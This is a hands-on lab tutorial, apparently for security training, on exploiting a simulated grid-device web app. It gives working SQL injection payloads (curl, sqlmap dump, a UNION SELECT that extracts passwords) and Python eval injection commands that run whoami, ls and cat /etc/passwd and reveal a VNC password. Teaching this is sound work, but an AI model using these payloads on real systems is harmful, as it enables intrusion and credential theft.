



# Web Exploitation

1. On the Kali machine, open the Firefox browser and go to `10.10.0.100` to pull up the DER website.  Click the icon or enter the following into the terminal to start the browser: `firefox`

	

	You will see some power, voltage, and frequency from the DER device.  There are also some simple tab applications: `Firmware`, `Calculator`, and `Grid Information`. These were added to demonstrate different forms of website vulnerabilities.

## SQL injection

** A Joke to Start **

From: [http://xkcd.com/327/](http://xkcd.com/327/)

1. Click on the `Grid Information` link to bring up `http://10.10.0.100/grid` in the browser.
2. Notice the list of grid codes available for this device.

	

3. Clicking on `Asia` or `Europe` links will show the options for that continent,
e.g., `http://10.10.0.100/grid?continent=Asia`

4. It looks like this URL is using some kind of database to store information. It could be vulnerable to SQL injection attacks depending on how it's parsing the inputs. To help us quickly test different exploits, let's use `curl` to get the website contents:

	`curl http://10.10.0.100/grid?continent=Asia`

5. Websites require inputs to be URL encoded. To save us the trouble of manually converting the data, we can have curl do this for us:

	`curl --get --data-urlencode "continent=Asia" http://10.10.0.100/grid`
	
	The results will be the same as before.

6. Now, let's try to see if we can see if can determine if this is a SQL database by terminating the input string and producing an error.  Typical string terminators are `"`, `'`, and `` ` ``. 

	```curl --get --data-urlencode "continent=\"" http://10.10.0.100/grid```

	```curl --get --data-urlencode "continent='" http://10.10.0.100/grid```

	In the second case, we get an interesting error: `unrecognized token: "''';"`.  Googling this we see this is a error common in SQLite applications. That confirms our suspicion that these queries are tied to a SQL database.

7. There are tools that can help to automate SQL injection attacks.  One included on the Kali machine is `sqlmap`.  We can test it out by running the following:

	`sqlmap -u http://10.10.0.100/grid?continent=Asia -p continent --dump`

	where the `continent` parameter is used for the injection and `--dump` indicates that `sqlmap` should dump the full contents. You can answer the questions with the following: `Y`, `Y`, `N`

	Did we find anything interesting?

	
	

	NOTE: sqlmap will sometimes fail if the queries do not return in time.  If it fails, try a few more times.

8. Note we can also manually exploit this system if we know how to craft the request.  The single quote `'`is used for the end of a string input.  We can use this to end the entry and then add another query as long as we terminate the request with a comment using either a `*/`, C-style comment block, of the SQL comment `--`.

	Try to get the user passwords with the curl command:

	`curl --get --data-urlencode "continent=' UNION SELECT username, password, 1 from USERS --" http://10.10.0.100/grid`

	And enter the following into the browser URL:

	`http://10.10.0.100/grid?continent=' union select username, password, 1 from users --`

	which becomes `http://10.10.0.100/grid?continent=%27%20union%20select%20username,%20password,%201%20from%20users%20/*` when URL encoded.

	


## Command/Code Injection

1. Go to the solar website at `http://10.10.0.100/calculator`.  In the first field, the form is running python code that includes an `eval` statement.  It can be used as a calculator. For instance, enter the following:

	`5+7`

	`8*5`

	`4**2`

	Did it return the expected results?

2. Python `eval` statements will execute arbitrary code and, therefore, it is a well-known vulnerability.  So instead of entering, an equation, let’s start a subprocess to print the user that is running the website with `whoami`.  You can also print the values of the website’s directory with the `ls` command.

	`__import__("subprocess").getoutput("whoami")`

	`__import__("subprocess").getoutput("ls")`

	

3. If you look at the output, you can see that there’s a file called `super_secret_info.txt`. Let’s go ahead and see what’s in that file.

	`__import__("subprocess").getoutput("cat super_secret_info.txt")`

	We see the following result:

	`Result: VNC password = superman`

4. Now let’s see if we can dump the users names from the linux machine.

	`__import__("subprocess").getoutput("cat /etc/passwd")`

 	So, we can see there’s a vnc user on the machine.  Maybe we can get it using VNC.

	
